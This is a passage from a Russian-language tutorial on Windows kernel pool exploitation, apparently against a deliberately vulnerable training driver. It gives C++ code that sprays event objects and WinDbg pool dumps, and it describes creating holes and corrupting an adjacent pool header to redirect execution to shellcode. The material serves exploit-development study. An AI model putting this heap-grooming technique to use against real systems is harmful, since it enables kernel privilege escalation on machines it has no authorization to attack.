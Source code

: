Мы будем спреить большое количество объектов событий, хранить хендлы на них в массивах и смотреть, как это влияет на пул

```cpp
HANDLE spray_event1[10000];
HANDLE spray_event2[5000];

for (int i = 0; i < 10000; i++) {
    spray_event1[i] = CreateEventA(0, 0, 0, 0);
}

for (int i = 0; i < 5000; i++) {
    spray_event2[i] = CreateEventA(0, 0, 0, 0);
}
```

```js
kd> !pool 0x850B4620
Pool page 850b4620 region is Unknown
 850b4000 size:   40 previous size:    0  (Allocated)  Even (Protected)
 850b4040 size:  5d8 previous size:   40  (Free)       pter
*850b4618 size:  200 previous size:  5d8  (Allocated) *Hack
    Owning component : Unknown (update pooltag.txt)
ReadVirtual: 850b4914 not properly sign extended
 850b4818 size:  100 previous size:  200  (Allocated)  Io   Process: 86db7030
 850b4918 size:   a8 previous size:  100  (Allocated)  MmWe
ReadVirtual: 850b4afc not properly sign extended
 850b49c0 size:  140 previous size:   a8  (Allocated)  Io   Process: 86db7030
ReadVirtual: 850b4bfc not properly sign extended
 850b4b00 size:  100 previous size:  140  (Free )  Io   Process: 86db7030
 850b4c00 size:   40 previous size:  100  (Allocated)  Even (Protected)
 850b4c40 size:   40 previous size:   40  (Allocated)  Even (Protected)
 850b4c80 size:   40 previous size:   40  (Allocated)  Even (Protected)
 850b4cc0 size:   40 previous size:   40  (Allocated)  Even (Protected)
 850b4d00 size:   40 previous size:   40  (Allocated)  Even (Protected)
 850b4d40 size:   40 previous size:   40  (Allocated)  Even (Protected)
 850b4d80 size:   40 previous size:   40  (Allocated)  Even (Protected)
 850b4dc0 size:   40 previous size:   40  (Allocated)  Even (Protected)
 850b4e00 size:   40 previous size:   40  (Allocated)  Even (Protected)
 850b4e40 size:   40 previous size:   40  (Allocated)  Even (Protected)
 850b4e80 size:   40 previous size:   40  (Allocated)  Even (Protected)
 850b4ec0 size:   40 previous size:   40  (Allocated)  Even (Protected)
 850b4f00 size:   40 previous size:   40  (Allocated)  Even (Protected)
 850b4f40 size:   40 previous size:   40  (Allocated)  Even (Protected)
 850b4f80 size:   40 previous size:   40  (Allocated)  Even (Protected)
 850b4fc0 size:   40 previous size:   40  (Allocated)  Even (Protected)
```

Наши объекты событий заспреены в невыгружаемом пуле. Теперь нам нужно создать дыры и реаллокейтнуть наш уязвимый буфер Hack в созданные дыры. После реаллоцирования нашего уязвимого буфера нам нужно покорраптить хедер соседнего пула так, чтобы он вел к нашему шеллкоду. Размер объекта события будет 0x40 (0x38 + 0x8), включая заголовок пула

```js
kd> !pool 0x850B4620
Pool page 850b4620 region is Unknown
 850b4000 size:   40 previous size:    0  (Allocated)  Even (Protected)
 850b4040 size:   28 previous size:   40  (Free)       pter
 850b4068 size:  388 previous size:   28  (Free )  XSav
 850b43f0 size:   40 previous size:  388  (Free )  Ussb Process: 86db7030
 850b4430 size:  140 previous size:   40  (Allocated)  Io   Process: 86db7030
 850b4570 size:   a8 previous size:  140  (Free )  MmWe
*850b4618 size:  200 previous size:   a8  (Allocated) *Hack
    Owning component : Unknown (update pooltag.txt)
 850b4818 size:   60 previous size:  200  (Free)       Io  
 850b4878 size:  388 previous size:   60  (Free )  XSav
```